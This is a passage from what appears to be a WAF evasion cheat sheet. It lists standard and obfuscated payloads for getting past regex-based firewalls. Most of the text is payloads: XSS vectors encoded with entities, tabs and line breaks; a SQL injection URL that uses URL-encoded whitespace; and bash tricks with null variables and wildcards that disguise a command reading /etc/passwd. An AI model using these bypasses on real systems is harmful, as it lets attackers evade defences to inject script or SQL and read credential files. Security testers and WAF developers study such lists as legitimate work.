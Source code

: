 **Standard**: `<BODY onload=alert()>`  
**Obfuscated**: ``<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert()>``

> **NOTE:** The above payload can break the regex parser to cause an exception.

**Standard**: `<a href=javascript;alert()>ClickMe`   
**Bypassed**: `<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=j&#97v&#97script&#x3A;&#97lert(1)>ClickMe`

**10. Line Breaks**

* Many WAF with regex based filtering effectively blocks many attempts.
* Line breaks \(CR/LF\) can break firewall regex and bypass stuff.

**Standard**: `<iframe src=javascript:confirm(0)">`  
**Obfuscated**: `<iframe src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(0)">`

**11. Uninitialized Variables**

* Uninitialized bash variables can evade bad regular expression based filters and pattern match.
* These have value equal to null/they act like empty strings.
* Both bash and perl allow this kind of interpretations.

> **BONUS:** Variable names can have any number of random characters. I have represented them here as `$aaaaaa`, `$bbbbbb`, and so on. You can replace them with any number of random chars like `$ushdjah` and so on. ;\)

* **Level 1 Obfuscation**: Normal **Standard**: `/bin/cat /etc/passwd` **Obfuscated**: `/bin/cat$u /etc/passwd$u`
* **Level 2 Obfuscation**: Postion Based **Standard**: `/bin/cat /etc/passwd` **Obfuscated**: `$u`**`/bin`**`$u`**`/cat`**`$u $u`**`/etc`**`$u`**`/passwd`**`$u`
* **Level 3 Obfuscation**: Random characters **Standard**: `/bin/cat /etc/passwd` **Obfuscated**: `$aaaaaa`**`/bin`**`$bbbbbb`**`/cat`**`$ccccccc $dddddd`**`/etc`**`$eeeeeee`**`/passwd`**`$fffffff`

An exotic payload crafted:

```text
$sdijchkd/???$sdjhskdjh/??t$skdjfnskdj $sdofhsdhjs/???$osdihdhsdj/??ss??$skdjhsiudf
```

**12. Tabs and Line Feeds**

* Tabs often help to evade firewalls especially regex based ones.
* Tabs can help break firewall regex when the regex is expecting whitespaces and not tabs.

**Standard**: `<IMG SRC="javascript:alert();">`  
**Bypassed**: `<IMG SRC=" javascript:alert();">`  
**Variant**: `<IMG SRC=" jav ascri pt:alert ();">`

**Standard**: `http://test.com/test?id=1 union select 1,2,3`  
**Standard**: `http://test.com/test?id=1%09union%23%0A%0Dselect%2D%2D%0A%0D1,2,3`

**Standard**: `<iframe src=javascript:alert(1)></iframe>`  
**Obfuscated**:

```text
<iframe    src=j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t&Tab;:a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;%28&Tab;1&Tab;%29></iframe>
```
